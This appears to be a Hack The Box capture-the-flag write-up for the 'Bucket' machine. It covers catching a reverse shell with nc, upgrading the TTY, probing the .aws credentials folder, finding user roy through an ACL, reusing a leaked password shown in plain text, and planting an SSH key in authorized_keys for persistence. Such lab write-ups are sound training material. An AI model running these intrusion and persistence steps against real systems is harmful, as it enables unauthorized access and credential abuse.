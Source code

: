 # Shell as www-data

We managed to pop our shell from the bucket, and can see we are the `www-data` user:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.10.212] 42766
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:18 up  4:38,  0 users,  load average: 0.12, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now let's upgrade our shell, using the [[Linux Shells#Backgrounding Shell Trick]]:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bucket:/$ ^Z  
[1]+  Stopped                 nc -lnvp 9001
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ stty raw -echo
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
nc -lnvp 9001

www-data@bucket:/$ 
```

## Enumeration

Looking around the root directory, we see an `.aws` folder, which I know from experience contains credentials:

```bash
www-data@bucket:/$ cd .aws
www-data@bucket:/.aws$ ls
config	credentials
www-data@bucket:/.aws$ cat credentials
cat: credentials: Permission denied
```

However we cannot read it.

Going to the home directory, we see a new folder called `bucket-app`. This is also root-only readable, but has a mysterious `+` next to it.

```bash
www-data@bucket:/.aws$ cd ~
www-data@bucket:/var/www$ ls -la
total 16
drwxr-xr-x   4 root root 4096 Feb 10 12:29 .
drwxr-xr-x  14 root root 4096 Feb 10 12:29 ..
drwxr-x---+  4 root root 4096 Feb 10 12:29 bucket-app
drwxr-xr-x   2 root root 4096 Apr 29 09:07 html
```

When I first did this box, I tried looking for a user to escalate to with the credentials I had found in DDB. I did this by listing the contents of the `/home` directory, and found the `/home/roy` directory.

Other ways of discovering `roy` included:
- Running `cat /etc/passwd` to list the users on the box
- Running `getfacl bucket-app` to view the access control list on the `bucket-app` directory

The `+` next to the filename is what indicates we can do the latter - it shows there is an extra permission on the file besides the usual `rwx` permissions of Linux - this is usually an Access Control List, or ACL, and can be read with the `getfacl` command:

```bash
www-data@bucket:/var/www$ getfacl bucket-app
# file: bucket-app
# owner: root
# group: root
user::rwx
user:roy:r-x
group::r-x
mask::r-x
other::---
```

This shows us the `roy` user.

## Escalating to Roy

We can now attempt to switch user to `roy`. I tried every [[Writeups/Hack the Box/Boxes/Bucket/1 - Loot|password that we leaked]], and found that `n2vM-<_K_Q:.Aa2` worked:

```bash
www-data@bucket:/var/www$ su roy
Password: 
roy@bucket:/var/www$
```

We can now attempt to SSH in as roy using this password:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ ssh roy@10.10.10.212
The authenticity of host '10.10.10.212 (10.10.10.212)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.212' (ECDSA) to the list of known hosts.
roy@10.10.10.212's password: 

...[snip]...

  System information as of Thu 29 Apr 2021 09:16:39 AM UTC

  System load:                      0.09
  Usage of /:                       33.6% of 17.59GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        240
  Users logged in:                  0
  IPv4 address for br-bee97070fb20: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.212
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:f4a2


...[snip]...

Last login: Wed Sep 23 03:33:53 2020 from 10.10.14.2
roy@bucket:~$ 
```

Success! We can now abandon our painfully laggy PHP reverse shell and use SSH instead. The login banner also gave us some potentially useful information, so I've included it in the notes.

### SSH Persistence

If for some reason the password did not work here, we could instead try to drop our own SSH key for persistence. This is actually what I did when I originally solved the box. If roy had a `.ssh` folder we could save his `id_rsa` file to our box and use it to connect, which is better for OpSec. However, he did not, so instead we can upload our own.

On our local machine we can [[Fundamental Skills#SSH Keys|create an ssh key pair]]:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ssh]
└─$ ssh-keygen -f roy
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ssh]
└─$ cat roy.pub 
ssh-rsa AAAAB3...[snip]...+Ol9tVADE= mac@kali
```

On the remote machine, create a `.ssh` directory and add our public key to the authorized keys file:

```bash
roy@bucket:~$ mkdir .ssh
roy@bucket:~$ echo 'ssh-rsa AAAAB3...[snip]...+Ol9tVADE= mac@kali' > .ssh/authorized_keys
```